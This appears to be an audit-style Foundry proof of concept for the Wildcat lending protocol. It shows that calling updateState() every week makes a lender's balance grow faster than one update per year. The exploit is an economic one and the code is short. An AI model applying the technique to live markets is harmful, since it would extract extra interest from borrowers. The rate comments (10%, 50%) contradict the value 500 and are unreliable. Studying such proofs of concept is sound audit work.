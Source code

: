 ```solidity

        // Register lender
        address[] memory arr = new address[](1);
        arr[0] = LENDER;
        vm.prank(BORROWER);
        controller.authorizeLenders(arr);
    }

    function test_lenderCanInflateInterestRate() public {
        // Deploy market with 10% annual interest rate
        vm.prank(BORROWER);
        address _market = controller.deployMarket(
            address(asset),
            "Market ",
            "MKT-",
            type(uint128).max,
            500, // annual interest rate = 50%
            0, // delinquency fee = 0%
            MaximumWithdrawalBatchDuration,
            MaximumReserveRatioBips,
            MaximumDelinquencyGracePeriod
        );
        WildcatMarket market = WildcatMarket(_market);

        // Lender deposits into market
        vm.startPrank(LENDER);
        asset.approve(address(market), 1000e18);
        market.depositUpTo(1000e18);
        vm.stopPrank();

        // Save a snapshot before interest compounding
        uint256 snapshot = vm.snapshot();

        // Calculate assets owed by borrower after 1 year
        skip(365 days);
        market.updateState();
        console2.log("Assets owed:", market.balanceOf(LENDER));

        // Revert to before interest compounding
        vm.revertTo(snapshot);

        // Calculate assets owed if updateState() were to be called every week
        for (uint256 i = 0; i < 52; ++i) {
            skip(1 weeks);
            market.updateState();
        }
        console2.log("Assets owed:", market.balanceOf(LENDER));
    }
}
```
